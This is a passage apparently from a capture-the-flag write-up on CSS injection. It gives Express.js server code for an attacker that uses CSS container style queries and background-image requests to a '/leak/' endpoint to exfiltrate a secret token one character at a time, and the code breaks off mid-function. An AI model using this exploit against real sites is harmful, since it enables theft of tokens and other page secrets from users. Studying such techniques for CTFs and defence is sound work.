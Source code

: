 ```
      
  </table>

  <form method="POST" action="/tasks/create">
    <button class="btn" type="submit">Create New Task</button>
  </form>

</body>

</html>
```

When `--x` and `--y` match, a request is made to our server.

This enables leaking one character; now, automate it.

#### Exploit

```
const express = require('express');

const app = express();
const PORT = 5001;

const charset = '0123456789abcdefghijklmnopqrstuvwxyz'

flag = 'justToken{'

app.get('/css', (req, res) => {
  res.set('content-type', 'text/css');
  result = "";
  for (const v in charset){
    result += `@import "/var/y_${charset[v]}";\n`
  }
  for (const v in charset){
    result += `@container style(--x:var(--y_${charset[v]})){
  body{
    background: red url('/leak/${flag}${charset[v]}');
  }
}\n`;
  }
  res.send(result);
});

app.get('/exploit', (req, res) => {
  res.sendFile(__dirname + '/exploit.html');
});
app.get('/var/:id', (req, res)=>{
  res.set('content-type', 'text/css');
  v = req.params.id.split('_')[1]
  data = `,
${flag}${v}...</pre>
        </td>
      </tr>
      
  </table>

  <form method="POST" action="/tasks/create">
    <button class="btn" type="submit">Create New Task</button>
  </form>

</body>

</html>`
  const variableTpl = `*{--${req.params.id}:${data}`;
```